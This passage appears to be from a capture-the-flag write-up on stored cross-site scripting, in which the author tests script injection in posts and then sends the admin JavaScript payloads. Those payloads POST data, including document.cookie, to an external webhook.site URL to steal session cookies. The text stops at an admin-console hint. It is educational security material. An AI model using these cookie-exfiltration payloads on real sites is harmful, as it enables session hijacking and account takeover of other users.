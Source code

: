 However this time the malicious code will be executed with his session, therefore we'll be able to perform actions only the admin can do. One of the most common attack is to grab the admin's authentication cookie and then we can impersonate him.

### Test code injection

First step is to verify that we can inject code in the posts. To this end, we simply enter:

```html
<script>alert("Hello there")</script>
```

Then post it. When we go to the page where the post is displayed, we do get an alert. So we can inject javascript!

### Test XSS

Then we want to check that the admin does execute the code we send to him. To do this, we'll inject a simple code which will send a message to a server we control.

First let's set up an HTTP server. I've used https://webhook.site to create a webhook where I can send data.

Next I create the payload:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807", true);
xhr.send(JSON.stringify({
    "a": "Hello there"
}));
</script>
```

This will simply send a message to my webhook. I test it, and I receive a first message when I read my own post, and when I send it to the admin I get the second message. So the admin reads what I'm sending to him!

### Leak relevant data

Then I want to leak relevant data. As I said earlier, I would like to leak his cookie to impersonate him. So let's try it:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807", true);
xhr.send(JSON.stringify({
    "a": document.cookie
}));
</script>
```

However, I don't get the cookies (neither from me nor from the admin). After looking it up, it seems that this is because they are [HTTPOnly cookies](https://owasp.org/www-community/HttpOnly), therefore scripts cannot access them. On the admin page I receive a hint though (stored as a regular cookie): `Check the admin console!`.
